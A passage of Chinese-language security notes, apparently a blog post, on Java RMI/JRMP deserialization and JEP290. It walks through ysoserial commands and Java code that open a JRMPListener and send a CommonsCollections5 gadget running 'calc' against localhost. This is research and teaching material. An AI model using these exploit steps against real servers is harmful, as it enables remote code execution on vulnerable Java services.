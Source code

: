 尽管存在JEP290，但是JEP290默认没有对JRMP客户端的反序列化做限制，所以可以打得通

但是在8u231只会对这个进行了修复，当客户端的版本在8u231之后就不行了

# 利用JRMP客户端打服务端

ysoserial中的`exploit/JRMPClient`是作为攻击方的代码，一般会结合`payloads/JRMPLIstener`使用。

攻击流程如下：

- 需要发送`payloads/JRMPLIstener`内容到漏洞服务器中，在该服务器反序列化完成我们的payload后会开启一个RMI的服务监听在设置的端口上。
- 我们还需要在我们自己的服务器使用`exploit/JRMPClient`与存在漏洞的服务器进行通信，并且发送一个gadgets对象，达到一个命令执行的效果。(前面说过RMI协议在传输都是传递序列化，接收数据后进行反序列化操作。)

简单来说就是将一个payload发送到服务器，服务器反序列化操作该payload过后会在指定的端口开启RMI监听，然后通过`exploit/JRMPClient` 去发送攻击 gadgets对象

生成payload

```
java -jar ysoserial.jar JRMPListener 1099 > JRMP.bin
```

反序列化payload来开启一个RMI监听

```
package ysoserial.JRMP;

import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class test {
    public static void main(String[] args) throws Exception {
        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("D:\\工具\\ysoserial-master\\src\\main\\java\\ysoserial\\JRMP\\JRMP.bin"));
        Object o = fos.readObject();
        System.out.println(o);
    }
}
```

发送攻击的Gadget

```
java -cp ysoserial.jar ysoserial.exploit.JRMPClient 127.0.0.1 1099 CommonsCollections5 "calc"
```

![image-20220415143610948](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220415143610948.png)

这里因为JEP290的原因返回了REJECTED

JEP290只是针对服务端的的反序列化做了过滤

# YSO的JRMP模块分析

## payloads/JRMPListener
